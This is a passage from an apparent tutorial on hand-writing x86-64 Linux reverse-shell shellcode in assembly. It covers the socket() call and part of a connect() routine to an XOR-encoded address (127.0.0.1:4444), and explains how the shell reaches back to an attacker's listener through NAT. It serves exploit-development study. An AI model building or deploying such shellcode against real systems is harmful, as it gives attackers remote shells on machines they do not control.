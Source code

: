 ```nasm
    push rdx
    pop rdi
    add rdi, 2
    
    ; 2nd argument of socket(): type of socket
    ; in this case: SOCK_STREAM, which means it uses the TCP protocol
    inc rsi

    ; 3rd argument: https://stackoverflow.com/questions/3735773/what-does-0-indicate-in-socket-system-call

    ; Syscall socket()
    add eax, 41

    ; create socket and save the resulting file descriptor inside RAX
    syscall
```

<figcaption class="figure-caption">Creating a TCP socket in Assembly</figcaption>

In the snippet above I defined a new routine named `CreateSocket` which is responsible for creating a new TCP socket.

### Socket Connection

Unlike a bind shell, password-protected or not, this shellcode doesn't need to call syscalls such as `listen` or `accept`, since **the attacker** is not going to connect to this socket.

The opposite is true: **the socket **is going to connect to the TCP listener set up by the attacker.

This is what allows attackers to get a shell on servers and workstations hidden by `NAT`.

To perform this operation, there's a convenient syscall named `connect` we can use:

<figure class="kg-card kg-bookmark-card"><a class="kg-bookmark-container" href="https://man7.org/linux/man-pages/man2/connect.2.html"><div class="kg-bookmark-content"><div class="kg-bookmark-title">connect(2) - Linux manual page</div><div class="kg-bookmark-description"></div><div class="kg-bookmark-metadata"><span class="kg-bookmark-author">Linux manual page</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://man7.org/tlpi/cover/TLPI-front-cover-vsmall.png" alt=""></div></a>

It accepts three arguments:

<ol><li>`**sockfd** `is the file descriptor returned by the `socket` syscall
- `**addr** `is a pointer to a sockaddr structure containing the remote address and TCP port of the attacker listener
- `**addrlen** `is a integer that specifies the length of the previous sockaddr structure, usually 16-bytes long

Putting this pieces of information together, I came up with the following routine:

```nasm
Connect:

    ; 1st argument of connect(): file descriptor of the socket to connect
    mov rdi, rax

    xor esi, esi
    mul rsi

    ; padding for the sockaddr struct
    push rax

    ; address 127.0.0.1:4444
    mov rbx, 0xfeffff80a3eefffd
    mov rcx, 0xffffffffffffffff
    xor rbx, rcx

    ; push the pointer to the remote address on the stack
    push rbx
    mov rsi, rsp
```
